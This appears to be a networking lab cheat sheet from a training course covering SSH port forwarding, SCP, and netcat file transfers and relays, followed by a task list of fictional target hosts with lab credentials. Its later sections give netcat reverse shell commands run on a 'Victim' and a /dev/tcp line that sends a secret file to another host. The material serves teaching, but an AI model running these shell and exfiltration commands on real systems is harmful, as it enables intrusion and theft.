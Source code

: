 scp -P

----------------------------------------------------------------------------------------------------
SCP Syntax through a tunnel
Create a local port forward to target device
$ ssh student@172.16.82.106 -L 1111:localhost:22 -NT
Download a file from a remote directory to a local directory
$ scp -P 1111 student@localhost:secretstuff.txt /home/student
Upload a file to a remote directory from a local directory
$ scp -P 1111 secretstuff.txt student@localhost:/home/student

----------------------------------------------------------------------------------------------------
SCP Syntax through a Dynamic Port forward
Create a Dynamic Port Forward to target device
$ ssh student@172.16.82.106 -D 9050 -NT
Download a file from a remote directory to a local directory
$ proxychains scp student@localhost:secretstuff.txt .
Upload a file to a remote directory from a local directory
$ proxychains scp secretstuff.txt student@localhost:

----------------------------------------------------------------------------------------------------
NETCAT: Client to Listener file transfer
Listener (receive file):

nc -lvp 9001 > newfile.txt
Client (sends file):

nc 172.16.82.106 9001 < file.txt

----------------------------------------------------------------------------------------------------
NETCAT: Listener to Client file transfer
Listener (sends file):

nc -lvp 9001 < file.txt
Client (receive file):

nc 172.16.82.106 9001 > newfile.txt

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Listener - Listener

On Blue_Host-1 Relay:
$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe

On Internet_Host (send):
$ nc 172.16.82.106 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc 192.168.1.1 3333 > newsecret.txt

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Client - Client

On Internet_Host (send):

$ nc -lvp 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc -lvp 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Client - Listener

On Internet_Host (send):

$ nc -lvp 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc 192.168.1.1 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Listener - Client

On Internet_Host (send):

$ nc 172.16.82.106 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc -lvp 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

----------------------------------------------------------------------------------------------------
File Transfer with /dev/tcp
On the receiving box:

$ nc -lvp 1111 > devtcpfile.txt
On the sending box:

$ cat secret.txt > /dev/tcp/10.10.0.40/1111
This method is useful for a host that does not have NETCAT available.

----------------------------------------------------------------------------------------------------
Reverse shell using NETCAT
First listen for the shell on your device.

$ nc -lvp 9999
On Victim using -c :

$ nc -c /bin/bash 10.10.0.40 9999
On Victim using -e :

$ nc -e /bin/bash 10.10.0.40 9999

----------------------------------------------------------------------------------------------------
Target Section:

Task 1

T1
Hostname: INTERNET_HOST
External IP: 10.50.XXX.XXX (ALREADY PROVIDED) Internal IP: 10.10.0.40 (ALREADY PROVIDED) (accessed via FLOAT IP)
creds: student:password
Action: Successfully transfer file data between hosts via Netcat

T2
Hostname: BLUE_HOST-4
IP: 172.16.82.115
creds: (No Access)
Action: Successfully transfer files from this host using Netcat

RELAY
Hostname: BLUE_INT_DMZ_HOST-1
IP: 172.16.40.10
creds: student:password
Action: Successfully transfer file data between hosts via Netcat



Task 3

T3
Hostname: Atropia
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: 22(ssh)
Action: Establish appropriate tunneling techniques

T4
Hostname: Pineland
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: 23(telnet - go directly from T1 to T4 to simulate compromising the machine)
Type: Compromised Donovian System
Action: Establish appropriate tunneling techniques



Task 4
T5
Hostname: UNKNOWN
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: UNKNOWN
Action: Execute proper movement and redirection techniques
